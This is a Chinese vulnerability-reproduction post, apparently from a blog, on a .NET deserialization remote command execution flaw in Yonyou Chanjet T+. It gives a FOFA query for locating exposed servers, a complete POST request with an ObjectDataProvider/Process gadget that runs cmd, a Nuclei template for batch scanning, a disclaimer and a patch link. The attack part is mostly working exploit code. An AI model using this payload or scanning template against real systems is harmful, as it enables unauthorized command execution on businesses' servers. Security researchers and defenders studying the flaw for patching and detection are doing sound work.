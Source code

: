 # 原创
：  漏洞复现--用友 畅捷通T+ .net反序列化RCE

# 漏洞复现--用友 畅捷通T+ .net反序列化RCE

## 免责声明：

**文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，切勿当真，未授权的攻击属于非法行为！文章中敏感信息均已做多层打马处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任，一旦造成后果请自行负责**

### 一：漏洞描述

畅捷通T+是一款新型互联网企业管理软件。 全面满足成长型小微企业对其灵活业务流程的管控需求，重点解决往来业务管理、订单跟踪、资金、库存等管理难题。该产品存在.net反序列化可导致RCE

### 二：漏洞影响版本

用友 畅捷通T+

### 三：网络空间测绘查询

fofa:<br/> `app="畅捷通-TPlus"`<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/a6e3c453978f53b51502192a18f4e3e5.jpeg"/>

### 四：漏洞复现

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/61419eea7006ec9521cdb9221814b7ee.jpeg"/><br/> POC:

```
POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
X-Ajaxpro-Method: GetStoreWarehouseByStore
Host: ip
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-type: application/x-www-form-urlencoded
Content-Length: 597

{
  "storeID":{
    "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "ObjectInstance":{
        "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "StartInfo": {
            "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
            "FileName":"cmd", "Arguments":"/c whoami &gt; test.txt"
        }
    }
  }
}

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/e248dfba170c5bcbc157966695354d6a.jpeg"/><br/> 访问执行命令的日志文件即test.txt<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/94e75d4e3315375b38225e26c13211e4.jpeg"/><br/> 执行ipconfig /all<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b115ab45dbc53eb3fbbe5c0cbbeab254.jpeg"/>

### 五：批量检测

```
id: changjietong_GetStoreWarehouseByStore_rce
info:
  name: 用友 畅捷通T+ GetStoreWarehouseByStore 远程命令执行漏洞
  author: mhb17
  severity: critical
  description: 
variables:
  file_name: "{{to_lower(rand_text_alpha(8))}}.txt"
requests:
  - raw:
      - |-
        POST /tplus/ajaxpro/Ufida.T.CodeBehind._PriorityLevel,App_Code.ashx?method=GetStoreWarehouseByStore HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
        X-Ajaxpro-Method: GetStoreWarehouseByStore
        Host: {{Hostname}}
        Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
        Connection: close
        Content-type: application/x-www-form-urlencoded
        Content-Length: 577

        {
          "storeID":{
            "__type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
            "MethodName":"Start",
            "ObjectInstance":{
                "__type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
                "StartInfo": {
                    "__type":"System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
                    "FileName":"cmd", "Arguments":"/c whoami &gt; {{file_name}}"
                }
            }
          }
        }
      - |+
        GET /tplus/{{file_name}} HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

    req-condition: true
    matchers:
      - type: dsl
        condition: and
        dsl:
          - 'contains((body_1), "System.ArgumentException") &amp;&amp; status_code_2 == 200'

```

此脚本来自揽月安全团队<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/105e80e9156e586821d8772f93d44ead.jpeg"/>

### 六：修复建议

目前官方已发布补丁更新，建议受影响用户尽快安装<br/> https://www.chanjetvip.com/product/goods/detail?id=6077e91b70fa071069139f62
